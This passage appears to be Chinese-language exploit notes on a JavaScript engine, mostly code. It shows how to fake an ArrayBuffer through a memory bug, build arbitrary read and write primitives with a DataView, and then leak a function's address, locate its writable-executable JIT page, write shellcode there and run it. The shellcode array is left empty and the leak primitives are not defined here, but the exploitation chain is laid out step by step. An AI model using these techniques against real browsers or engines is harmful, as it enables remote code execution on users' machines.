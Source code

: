 ```
]
fakeAB[0] = i2f(fakeABMapAddr);
```

- 可以通过漏洞伪造arraybuffer（通过控制bk来实现arbitrary read/write），伪造方法：fake arraybuffer map and fake arraybuffer。


#####  arbitrary read/write

```
//get fake ArrayBuffer object with FakeObj primitive
var fakeABObj = FakeObj(i2f(fakeABAddr));
// build DataView obj
var dataView = new DataView(fakeABObj);

// aar primitive
function dataViewRead64(addr)
{

    fakeAB[4] = addr; // overwrite fakeAB[4], which is corresponding to backing store pointer

    return f2i(dataView.getFloat64(0, true));
}

// aaw primitive
function dataViewWrite(addr, payload)
{

    fakeAB[4] = addr;

    for (let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
    return ;
}
```
通过控制fake ArrayBuffer的bk来实现。


# exploite

## 可以leak object address

- 可以泄漏object可以很轻易的利用oor/oow修改jsfunction或wasm中的jit code

### 方法一

```
// 1、创建一个JSFunction object
var jit = new Function("var a = 1000000");

// 2、get object address
var jit_addr = addrOf(jit) - 1;

//3、任意读获得jit中的rwx地址
var jit_rwx = read(jit_addr + 0x38);

//4、将shellcode写入jit_rwx
var shellcode = [];
write(jit_rwx, shellcode);

//5、run shellcode
jit();
```